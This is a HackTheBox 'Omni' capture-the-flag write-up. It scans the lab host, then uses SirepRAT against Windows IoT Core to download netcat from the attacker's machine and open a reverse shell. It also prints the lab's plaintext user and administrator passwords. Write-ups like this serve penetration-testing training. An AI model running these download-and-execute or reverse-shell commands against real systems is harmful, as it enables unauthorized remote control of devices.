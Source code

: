 ```yaml
---
title: HackTheBox Omni Writeup
published: true
---
```


![logo](https://i.ibb.co/WsG6YNc/logo.png)

# []()Methodology

* Service Enumeration.
* Windows IoT core Exploitation.
* Privilege Escalation.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine.**

* 135/tcp --> Microsoft Windows RPC
* 8080/tcp --> Microsoft IIS httpd

> **nmap -sC -sV -Pn -oN scan.txt 10.10.10.204**

```ruby

Nmap scan report for 10.10.10.204
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

> **let's check the web service first.**

# []()Checking Web Service

![web-page](https://i.ibb.co/zRpFnrg/web-service.png)

> **i tried to ByPass the authentication by many ways but i failed, so let's dig more.**

# []()Windows IOT Core Exploitation.

> **from the nmap scan we know from the port 8080 that this is a windows device portal, so let's search for any exploits.**

![google-search](https://i.ibb.co/K6ds03Z/google-search.png)

* coole, let's read this [article](https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/) first.

> **from the article i understand that this is a RCE, so we will execute command on the server as we like.**

![](https://i.ibb.co/xGQSXq2/rce.png)

> **first let's download this [repo](https://github.com/SafeBreach-Labs/SirepRAT.git)**

> **after downloading this repo, let's make some noise now.**

> **first i will execute a command to upload the nc to Omni server, then i will execute another command to get reverse shell.**

* **let's go**

1. **let's upload nc to the machine.**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe -Uri http://10.10.16.4:8000/nc64.exe" --v

![](https://i.ibb.co/HXJB1z6/upload-nc.png)

2. **let's get a reverse shell**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.16.4 9002 -e powershell.exe" --v

![](https://i.ibb.co/hVQSkX7/reverse-shell.png)

* **we got reverse shell as a system but this is a tricky part, we can't read user or root flag, so let's dig more.**

> in this PATH **C:\Program Files\WindowsPowerShell\Modules\PackageManagement** i've found a bat file which contain a credentials for user and administrator.

![credentials](https://i.ibb.co/fMkFjWn/creds.png)

```ruby

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

```

> **let's login to the web appliaction now with user credentials.**



